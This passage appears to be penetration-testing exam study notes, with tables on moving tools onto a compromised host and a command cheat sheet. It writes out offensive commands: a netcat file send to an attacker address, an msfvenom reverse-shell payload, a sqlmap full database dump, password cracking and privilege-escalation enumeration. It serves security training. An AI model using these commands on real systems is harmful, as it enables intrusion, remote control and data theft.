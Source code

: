 ### Summary Table: How to Get Your Tools On Target

| Your Situation | Best Method | Command (On Your Machine) | Command (On Target) |
| :--- | :--- | :--- | :--- |
| **You have ANY shell** | **HTTP Server** | `python3 -m http.server 80` | `curl/wget/certutil/powershell` |
| **You have Meterpreter** | **Meterpreter Upload** | `meterpreter > upload file` | (N/A) |
| **Target has FTP** | **FTP** | `ftp target_ip` + `put file` | `ftp your_ip` + `get file` |
| **Target has SSH** | **SCP** | `scp file user@target_ip:/path/` | (N/A) |
| **Target is Windows** | **SMB Share** | `impacket-smbserver ...` | `copy \\your_ip\file .` |
| **Nothing else works** | **Netcat** | `nc -lvnp 4444 > file` (recv) | `nc your_ip 4444 < file` (send) |

**Exam Tip:** The **Python HTTP Server** method is the most universal and least likely to be blocked by basic firewalls. It should be your first attempt in most scenarios. Always have a server ready (`python3 -m http.server 80`) during the exam.

---

## 🧰 Toolbox: Command Cheat Sheet

| Tool | Command | Purpose |
| :--- | :--- | :--- |
| **`nmap`** | `nmap -sS -sV -A <target>` | Stealth scan with version and OS detection |
| **`netcat`** | `nc -nv <target> <port>` | Banner grabbing / manual service interaction |
| **`john`** | `john --wordlist=rockyou.txt hashes.txt` | Password cracking |
| **`msfvenom`** | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=X LPORT=Y -f exe > shell.exe` | Generate a Windows payload |
| **`sqlmap`** | `sqlmap -u "http://site.com/page?id=1" --dump-all` | Automate SQL injection |
| **`steghide`** | `steghide extract -sf file.jpg -p 'pass'` | Extract hidden data from an image |
| **`curl`** | `curl -X POST -d "param=value" http://site.com/login` | Interact with web apps from CLI |
| **`find` (Lin)** | `find / -perm -u=s -type f 2>/dev/null` | Find SUID files for priv esc |
| **`whoami /priv` (Win)** | `whoami /priv` | Check Windows user privileges |
| **`WinPEASany.exe` (Win)** | `WinPEASany.exe` | Run Windows priv esc enumerator (after upload) |
| **`python3 -m http.server 80`** | `python3 -m http.server 80` | Host files for download from target |

***
